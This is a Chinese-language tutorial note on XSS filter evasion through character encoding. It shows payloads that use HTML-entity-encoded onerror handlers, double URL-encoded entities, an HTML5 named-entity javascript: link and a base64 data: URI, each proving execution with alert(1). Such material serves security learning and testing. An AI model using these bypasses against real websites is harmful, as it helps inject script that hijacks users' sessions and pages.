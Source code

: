 # xss的提升学习：字符编码

    在分析xss和盲打时，经常看到各种编码，会让你头疼不已，所以不得不学习一下简单的编码，以下是简单的学习和整理

## xss中常见的编码类型

- html实体编码
- unicode编码           -> %29;     -> %u5206
- Native/ASCII编码
- base64编码
- url编码               ->%3C       -> %253C

### html实体编码

html实体编码本身存在的意义是防止与HTML本身语义标记的冲突。
主要是过滤了script  < > / \ http: 以及各种危险字符 比如创建一个html节点什么的！
但是在XSS我们可以去利用，比如：

```html
<img src="[代码]">
```

我们可以在这里就可以通过html实体转换 闭合双引号 写事件: x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;

```html
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">
```

如果页面对单引号 & 符号 以及 #符号过滤！但是html中可以识别html实体编码！
我们可以先对代码进行html实体编码，例如对：`'` 进行html实体编码会得到: `&#x27;` 由于&#已经被过滤，我们可以对`&#`进行url编码：`%26%23` 然后将其组合：`%26%23x27;`，就可以绕过一些过滤了

html实体编码是区分十进制和十六进制的，编码的分号是可以去掉的，

不认识 HTML5 新增的实体命名编码,如：

```html
&colon; => [冒号]
&NewLine; => [换行]
case: <a href="javasc&NewLine;ript&colon;alert(1)">click</a>
```

### 八进制跟十六进制

一个html实体转换的网站：<https://www.qqxiuzi.cn/bianma/zifushiti.php>
url加解密：Base64加解密等: <http://www.bejson.com/enc/urlencode/>


### base64编码

使用base64编码的情况 大多数是这样！

```html
<a href="可控点">
<iframe src="可控点">

在这种情况下 如果过滤了<> ' " javascript 的话 那么要xss可以这样写 然后利用base64编码！

<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>

当test A链接点击时 就会以data协议 页面以html/text的方式解析 编码为base64 然后单点击a链接时 base64的编码就被还原成我们原本的

<img src=x onerror=alert(1)>
```